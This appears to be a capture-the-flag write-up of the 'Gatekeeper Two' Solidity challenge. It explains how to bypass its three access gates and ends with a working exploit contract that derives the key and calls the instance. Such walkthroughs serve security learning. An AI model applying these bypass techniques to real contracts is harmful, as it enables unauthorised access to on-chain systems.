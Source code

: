 # Gatekeeper Two

    ```solidity
    // SPDX-License-Identifier: MIT
    pragma solidity ^0.8.0;
    
    contract GatekeeperTwo {
    
      address public entrant;
    
      modifier gateOne() {
        require(msg.sender != tx.origin);
        _;
      }
    
      modifier gateTwo() {
        uint x;
        assembly { x := extcodesize(caller()) }
        require(x == 0);
        _;
      }
    
      modifier gateThree(bytes8 _gateKey) {
        require(uint64(bytes8(keccak256(abi.encodePacked(msg.sender)))) ^ uint64(_gateKey) == type(uint64).max);
        _;
      }
    
      function enter(bytes8 _gateKey) public gateOne gateTwo gateThree(_gateKey) returns (bool) {
        entrant = tx.origin;
        return true;
      }
    }
    
Gatekeeper Two presents another challenge in Solidity smart contract security. Similar to Gatekeeper One, it employs multiple gates that need to be bypassed to gain access.

### Gate One
    ```solidity
    modifier gateOne() {
      require(msg.sender != tx.origin);
      _;
    }
    
Gate One aims to prevent direct external calls by ensuring that msg.sender is not equal to tx.origin. To bypass this gate, an intermediary contract can be deployed before calling the target contract, altering the msg.sender value.

### Gate Two
    ```solidity
    modifier gateTwo() {
      uint x;
      assembly { x := extcodesize(caller()) }
      require(x == 0);
      _;
    }
    
Gate Two checks if the caller's code size is zero. During contract deployment, before the constructor completes, the runtime code size is indeed zero. Exploiting this, one can ensure that the gate is passed during contract creation.

### Gate Three
    ```solidity
    modifier gateThree(bytes8 _gateKey) {
      require(uint64(bytes8(keccak256(abi.encodePacked(msg.sender)))) ^ uint64(_gateKey) == type(uint64).max);
      _;
    }
    
Gate Three involves a bitwise XOR condition. To bypass it, one needs to understand that X XOR Y = Z is equivalent to X XOR Z = Y. By setting _gateKey appropriately, this condition can be satisfied.

Here's a script to bypass Gatekeeper Two:

    ```solidity
    // SPDX-License-Identifier: MIT
    pragma solidity ^0.6.0;
    
    import "../instances/Ilevel14.sol";
    
    contract LetMeInTwo {
    
        constructor () public {
            GatekeeperTwo level12 = GatekeeperTwo(0x2D55d7Fd2cd2d3344F2Fd694f05E3fd63A9FDCDA);
            bytes8 myKey = bytes8(uint64(bytes8(keccak256(abi.encodePacked(address(this))))) ^ (uint64(0) - 1));
            level12.enter(myKey);        
        }
    }
    
Deploying this contract and submitting the instance would allow one to successfully bypass Gatekeeper Two and proceed further in the hacking challenge.
